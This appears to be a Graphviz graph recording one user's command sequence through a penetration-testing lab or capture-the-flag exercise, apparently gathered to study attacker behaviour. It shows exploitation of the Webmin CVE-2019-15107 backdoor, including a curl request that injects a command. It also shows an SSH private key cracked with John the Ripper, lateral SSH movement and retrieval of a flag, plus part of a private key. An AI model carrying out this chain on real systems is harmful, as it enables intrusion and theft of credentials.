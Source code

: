 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	3 [label="msfconsole M2 "]
	8 [label="db_nmap 172.18.1.5 A1 "]
	11 [label="show exploits M8 "]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	41 [label="show exploit A5 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  M4 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 M6 "]
	47 [label="show options M5 "]
	50 [label="check A7 "]
	52 [label="check A7 "]
	62 [label="check A7 "]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	77 [label="check A7 "]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- M14 "]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	190 [label="/usr/share/john/ssh2john.py key A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A16 "]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa M12 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 M16 "]
	203 [label="ls A10 "]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A17 "]
	210 [label="ls A10 "]
	212 [label="ls A10 "]
	213 [label="cat flag.txt M17 "]
	0 -> 3 [constraint=false]
	3 -> 8 [constraint=false]
	8 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 23 [constraint=false]
	23 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 47 [constraint=false]
	47 -> 50 [constraint=false]
	50 -> 52 [constraint=false]
	52 -> 62 [constraint=false]
	62 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 77 [constraint=false]
	77 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 90 [constraint=false]
	90 -> 136 [constraint=false]
	136 -> 142 [constraint=false]
	142 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 196 [constraint=false]
	196 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 203 [constraint=false]
	203 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 210 [constraint=false]
	210 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
